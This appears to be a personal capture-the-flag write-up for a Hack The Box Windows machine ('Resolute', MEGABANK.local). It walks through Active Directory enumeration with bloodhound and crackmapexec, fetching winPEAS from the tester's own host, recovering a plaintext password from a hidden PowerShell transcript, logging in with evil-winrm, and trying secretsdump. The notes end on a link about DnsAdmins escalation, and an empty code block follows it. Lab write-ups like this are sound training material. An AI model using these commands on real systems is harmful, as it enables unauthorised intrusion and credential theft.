 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

```
crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
```

So my intuition was right there is something hidden and i can smell it but don't know the command for it.
```
dir -Force
```

![[Pasted image 20240506070133.png]]

![[Pasted image 20240506070800.png]]

PS Transcripts seems fishy to meeeeeeeeeeeee 
And the interesting thing is that file is hidden again
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![[Pasted image 20240506071315.png]]

Let's peak into the file and see if we can get some thing interesting from it
User
```
ryan
```

Password
```
Serv3r4Admin4cc123!
```

![[Pasted image 20240506071656.png]]


Let's evil-winrm and see the group and what we can do with it and the privileges we have
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```
![[Pasted image 20240506071911.png]]

```
secretsdump.py MEGABANK.LOCAL/ryan:'Serv3r4Admin4cc123!'@10.10.10.169
```
It didn't worked

![[Pasted image 20240506072229.png]]

So the group that stands out is DnsAdmins
![[Pasted image 20240506072623.png]]

https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

```

```